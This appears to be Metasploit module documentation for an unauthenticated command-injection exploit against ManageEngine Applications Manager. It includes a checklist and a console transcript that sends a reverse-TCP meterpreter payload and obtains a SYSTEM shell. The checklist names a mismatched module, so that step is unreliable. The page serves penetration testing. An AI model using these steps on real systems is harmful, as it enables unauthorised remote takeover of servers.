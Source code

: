 ## Vulnerable Application
This module exploits command injection vulnerability in the ManageEngine Application Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[https://www.manageengine.com/products/applications_manager/download.html](https://www.manageengine.com/products/applications_manager/download.html)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/securityonion_xplico_exec`
- [ ] Set `RHOST`
- [ ] Set `PAYLOAD windows/meterpreter/reverse_tcp`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.` in console.
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Triggering the vulnerability` in console.
- [ ] **Verify** that you are seeing `Sending stage (179779 bytes) to <TARGET>` in console.
- [ ] **Verify** that you have your shell.

## Scenarios

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Trigerring the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```